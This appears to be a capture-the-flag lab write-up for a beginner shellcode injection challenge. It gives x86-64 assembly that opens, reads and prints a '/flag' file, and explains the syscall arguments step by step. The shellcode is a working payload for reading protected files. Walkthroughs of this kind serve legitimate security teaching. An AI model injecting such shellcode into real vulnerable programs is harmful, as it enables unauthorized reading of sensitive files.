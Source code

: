### Shellcode Injection 01

This challenge is an easy one. It can be solved as follow

1. Open flag file using sys_open syscall which returns the file descriptor and stores in rax.
2. Read the file descriptor from previous step using sys_read syscall and write the content to the stack
3. Write the content from the stack to stdout. 


```asm
.intel_syntax noprefix
.global _start

_start:
   mov rax, 0x02
   lea rdi, [rip+flag]
   mov rsi, 0x0
   mov rdx, 0x0
   syscall

   mov rdi, rax
   xor rax, rax
   mov rdx, 100
   mov rsi, rsp
   syscall

   mov rax, 0x01
   mov rdi, 0x01
   mov rsi, rsp
   mov rdx, 100
   syscall
   
flag:
   .ascii "/flag"
```

---------------------
In below code ,  first we mov the value 2 to rax, which refers to the sys_open syscall. It requires three parameters in following registers. The file descriptor of the open file is stored in the rax register after call to syscall. 

- rax: syscall number, 2 in our case
- rdi: filename, /flag in our case
- rsi: flags, 0 as we are just want to read the file
- rdx: mode, 0 as we are not setting any flags

```asm
   mov rax, 0x02
   lea rdi, [rip+flag]
   mov rsi, 0x0
   mov rdx, 0x0
   syscall
```
-----

In below code, we read the content of the file using the sys_read syscall. It requires following arguments

- rax: syscall number, 0 in our case. We are using xor to set the content to 0
- rdi: file descriptor, value stored in the rax from previous operation
- rsi: buffer pointer, we will set the pointer to the top of the stack using the rsp register.
- rdx: count, 100 as we want to read 100 bytes.


```asm
   mov rdi, rax
   xor rax, rax
   mov rdx, 100
   mov rsi, rsp
   syscall  
```
------

In below code, we write what we previously dumped onto the stack to stdout using the sys_write syscall. It requires the following arguments.

- rax: syscall number, 1 in our case
- rdi: file descriptor, 1 as we want to write to stdout
- rsi: buffer pointer, we will set the pointer to the top of the stack using the rsp register as there is where we had stored the content from the previous syscall.
- rdx: count, 100 as we want to read 100 bytes.

```asm
   mov rax, 0x01
   mov rdi, 0x01
   mov rsi, rsp
   mov rdx, 100
   syscall
```
-----
This says to the assembler that we wish to store the string "/flag" at label flag.

```asm
flag:
   .ascii "/flag"
``'`